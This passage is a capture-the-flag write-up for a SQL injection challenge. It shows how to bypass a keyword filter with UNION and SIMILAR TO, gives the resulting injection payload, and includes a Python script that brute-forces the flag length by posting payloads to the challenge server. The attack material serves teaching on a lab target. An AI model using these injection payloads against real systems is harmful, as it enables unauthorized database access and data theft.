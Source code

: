 There are services (like [OneCompiler](https://onecompiler.com/postgresql/), that allow you to execute code directly online. Always make sure 100% when using these services that you have selected the right DBMS.

![Example of using OneCompiler to verify the result of an unconventional query](img/OnlineExample.png)

##### Proceed in phases
It's helpful to reason in phases the first few times. In mathematics, we can start skipping steps during calculations, but only because we've become familiar enough:

- Identify your goal: in this case, "I want to get the flag" -> "I want to get all the characters of the record that starts with the flag format and ends with `}`".
- Write it down as you would normally: `SELECT name WHERE name LIKE 'lactf{%}'`.
- Rewrite it bypassing whitelist and blacklist: `SELECT name WHERE name SIMILAR TO 'lactf{_}'` with as many `_` as there are characters in the flag.
- Combine the two techniques shown previously: `SELECT name WHERE name SIMILAR TO 'lactf{_}'` + `SELECT * FROM penguins WHERE name = '%s'` -> remembering that the only column in the DB is `name`, and that we can only write commands in place of `%s`: `SELECT * FROM penguins WHERE name = '' UNION SELECT name WHERE name SIMILAR TO 'lactf{_}'`

The payload will simply be what we wrote in this last phase, which is `' UNION SELECT name WHERE name SIMILAR TO 'lactf{_}`

### Constructing the payload
At this point, all we have to do is construct a `UNION` with a `SIMILAR TO` instead of the more popular `LIKE`. In my case: `' UNION SELECT name WHERE name SIMILAR TO 'lactf{_}`. 

I'm not sure if there was a more convenient way to get the length of the flag, but I just added underscores until I got a positive result. These are the payloads useful for extracting the flag, modified from those used during the competition:

`findlen.py`
```py
from requests import *

URL = "https://penguin.chall.lac.tf/"
s = Session()
payloadStart = "' OR name SIMILAR TO 'lactf{"
payloadEnd = ""
i = 0

while True:
    payload = payloadStart + payloadEnd + "}"
    r = s.post(URL + "submit", data={"username": payload})
    if r.status_code == 200:
        print("worked: ", payload)
        break
    else:
        payloadEnd += "_"
```